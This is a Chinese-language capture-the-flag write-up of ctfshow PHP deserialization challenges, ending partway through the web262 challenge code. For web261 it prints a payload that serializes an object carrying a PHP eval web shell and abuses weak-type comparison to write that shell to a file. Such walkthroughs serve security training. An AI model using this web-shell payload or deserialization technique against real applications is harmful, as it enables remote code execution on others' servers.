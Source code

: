 ```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow']))){
    echo $flag;
}
```

题目意思就是你序列化出来的东西需要包含字符串ctfshow_i_love_36D，
那我们直接传ctfhsow=ctfshow_i_love_36D就可以了。

###  web261

```php
如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法，
则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略。
```

当反序列化时会进入__unserialize中，而且也没有什么方法可以进入到__invoke中。所以直接就朝着写文件搞就可以了

```
只要满足code==0x36d(877)就可以了。
而code是username和password拼接出来的。
所以只要username=877.php password=shell就可以了。
877.php==877是成立的（弱类型比较）
```

payload

```
<?php
class ctfshowvip{
    public $username;
    public $password;
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
}
$a=new ctfshowvip('877.php','<?php eval($_POST[1]);?>');
echo serialize($a);
```

###  web262

考查反序列化字符串逃逸。

代码

```php
<?php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
```
